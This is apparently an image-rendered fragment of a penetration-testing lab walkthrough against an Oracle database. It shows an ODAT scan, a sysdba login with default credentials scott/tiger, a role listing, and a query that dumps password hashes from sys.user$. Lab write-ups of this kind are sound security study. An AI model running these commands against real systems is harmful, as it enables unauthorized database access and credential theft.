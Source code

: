 ```
[-] No found a valid account on 10.129.205.19:1521/ServiceName:XEXDB with usernameLikePassword module
➜  odat-libc2.17-x86_64 

```

```
➜  oracle-instantclient-sqlplus git:(master) ✗ sqlplus scott/tiger@10.129.205.19/XE as sysdba

SQL*Plus: Release 21.0.0.0.0 - Production on Mon Oct 2 19:07:00 2023
Version 21.11.0.0.0

Copyright (c) 1982, 2022, Oracle.  All rights reserved.


Connected to:
Oracle Database 11g Express Edition Release 11.2.0.2.0 - 64bit Production

SQL> select * from user_role_privs;

USERNAME		       GRANTED_ROLE		      ADM DEF OS_
------------------------------ ------------------------------ --- --- ---
SYS			       ADM_PARALLEL_EXECUTE_TASK      YES YES NO
SYS			       APEX_ADMINISTRATOR_ROLE	      YES YES NO
SYS			       AQ_ADMINISTRATOR_ROLE	      YES YES NO
SYS			       AQ_USER_ROLE		      YES YES NO
SYS			       AUTHENTICATEDUSER	      YES YES NO
SYS			       CONNECT			      YES YES NO
SYS			       CTXAPP			      YES YES NO
SYS			       DATAPUMP_EXP_FULL_DATABASE     YES YES NO
SYS			       DATAPUMP_IMP_FULL_DATABASE     YES YES NO
SYS			       DBA			      YES YES NO
SYS			       DBFS_ROLE		      YES YES NO

USERNAME		       GRANTED_ROLE		      ADM DEF OS_
------------------------------ ------------------------------ --- --- ---
SYS			       DELETE_CATALOG_ROLE	      YES YES NO
SYS			       EXECUTE_CATALOG_ROLE	      YES YES NO
SYS			       EXP_FULL_DATABASE	      YES YES NO
SYS			       GATHER_SYSTEM_STATISTICS       YES YES NO
SYS			       HS_ADMIN_EXECUTE_ROLE	      YES YES NO
SYS			       HS_ADMIN_ROLE		      YES YES NO
SYS			       HS_ADMIN_SELECT_ROLE	      YES YES NO
SYS			       IMP_FULL_DATABASE	      YES YES NO
SYS			       LOGSTDBY_ADMINISTRATOR	      YES YES NO
SYS			       OEM_ADVISOR		      YES YES NO
SYS			       OEM_MONITOR		      YES YES NO

USERNAME		       GRANTED_ROLE		      ADM DEF OS_
------------------------------ ------------------------------ --- --- ---
SYS			       PLUSTRACE		      YES YES NO
SYS			       RECOVERY_CATALOG_OWNER	      YES YES NO
SYS			       RESOURCE 		      YES YES NO
SYS			       SCHEDULER_ADMIN		      YES YES NO
SYS			       SELECT_CATALOG_ROLE	      YES YES NO
SYS			       XDBADMIN 		      YES YES NO
SYS			       XDB_SET_INVOKER		      YES YES NO
SYS			       XDB_WEBSERVICES		      YES YES NO
SYS			       XDB_WEBSERVICES_OVER_HTTP      YES YES NO
SYS			       XDB_WEBSERVICES_WITH_PUBLIC    YES YES NO

32 rows selected.

SQL> select name, password from sys.user$;
```